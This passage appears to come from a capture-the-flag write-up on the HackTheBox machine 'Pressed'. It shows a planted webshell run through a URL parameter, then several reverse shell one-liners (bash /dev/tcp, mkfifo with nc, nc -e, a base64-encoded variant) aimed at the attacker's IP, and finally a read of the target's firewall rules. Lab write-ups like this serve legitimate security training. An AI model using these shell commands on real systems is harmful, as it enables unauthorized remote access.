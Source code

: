 ![image.png]({{ site.baseurl }}/assets/pressed/image%2015.png)

Now let’s refresh the main site.

![image.png]({{ site.baseurl }}/assets/pressed/image%2016.png)

Let’s send a command:

```bash
http://pressed.htb/index.php/2022/01/28/hello-world/?cmd=id
```

![image.png]({{ site.baseurl }}/assets/pressed/image%2017.png)

It worked. Now we have a webshell. Let’s turn that into a reverse shell.

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 4444>/tmp/f

nc -e /bin/sh 10.10.16.9 4444
```

URL encode this, and send it in burp:

![image.png]({{ site.baseurl }}/assets/pressed/image%2018.png)

None of the commands are working. Let’s try base64 encoding it:

```bash
echo -n "bash -i >& /dev/tcp/10.10.16.9/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45LzQ0NDQgMD4mMQ==

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45LzQ0NDQgMD4mMQ== | base64 -d | bash

```

Nope, it just hangs forever. There might be some firewall rules.

```bash
ls -la /etc/iptables
```

We can match the Mozilla screen on our burp to auto scroll down to save us time from scrolling down to the output:

![image.png]({{ site.baseurl }}/assets/pressed/image%2019.png)

It’s world readable:

```bash
cat /etc/iptables/rules.v4

# Generated by iptables-save v1.8.4 on Mon Jan 31 23:19:19 2022
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp &#8211;dport 80 -j ACCEPT
-A INPUT -p icmp -m icmp &#8211;icmp-type 8 -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -p icmp -m icmp &#8211;icmp-type 0 -j ACCEPT
-A OUTPUT -p tcp -m state &#8211;state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
COMMIT
# Completed on Mon Jan 31 23:19:19 2022
```
